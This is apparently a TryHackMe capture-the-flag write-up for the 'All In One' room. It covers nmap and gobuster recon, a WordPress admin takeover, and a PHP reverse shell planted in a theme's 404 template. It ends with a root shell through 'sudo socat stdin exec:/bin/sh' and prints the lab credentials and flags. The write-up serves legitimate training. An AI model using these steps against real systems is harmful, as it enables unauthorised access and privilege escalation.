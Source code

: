 # All In One
> Gaurav Raj | TryHackMe

## Nmap Scan
```
[elliot@archlinux]  allinone nmap -sC -sV -A -oN nmap.log 10.10.207.102
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-10 14:04 IST
Nmap scan report for 10.10.207.102
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.82.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.76 seconds
[elliot@archlinux]  allinone 

```

## Gobuster Scan
```
[elliot@archlinux]  allinone cat gobuster.log      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:            http://10.10.207.102
[+] Method:         GET
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.1.0
[+] Timeout:        10s
===============================================================
2020/12/10 14:06:17 Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403)        
/.htpasswd (Status: 403)   
/.htaccess (Status: 403)   
/index.html (Status: 200)     
/server-status (Status: 403)  
/wordpress (Status: 301)     
/hackathons (Status: 200) 
===============================================================
2020/12/10 14:09:03 Finished
===============================================================
[elliot@archlinux]  allinone 

```

## HTTP Enumeration

Found `Wordpress` Blog in `/wordpress` directory and hints or creds on `hackathons` directory encoded with `Vigenère Cipher` with key `KeepGoing`

Got Access to the wordpress admin panel

## Reverse Shell
Downloaded `php-rev-shell.php` from pentest monkey github, modified it, then head to the wordpress theme editor section and edited the `404.php` template and place the `shell.php` Content in there, then tried to access a no-existing page with rendered out the `404.php` and got a reverse shell.

### Escalating as user
after getting the reverse shell as `www-data` tried to cat out the user flag but permission denied, then got a `hint.txt` file which was readable which contains
```
Elyana's user password is hidden in the system. Find it ;)
```
used this command to find out the result

`find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"`

```
bash-4.4$ find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"
<e f 2>&1 | grep -v "Permission" | grep -v "No such"
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
```

## User Flag
```
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
bash-4.4$ su elyana
su elyana
Password: E@syR18ght

bash-4.4$ id
id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
bash-4.4$ cat /home/elyana/user.txt
cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

## Privilege Escalation
```
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
bash-4.4$ sudo socat stdin exec:/bin/sh
sudo socat stdin exec:/bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@elyana:~# cat /root/root.txt | base64 -d
cat /root/root.txt | base64 -d
cat /root/root.txt | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```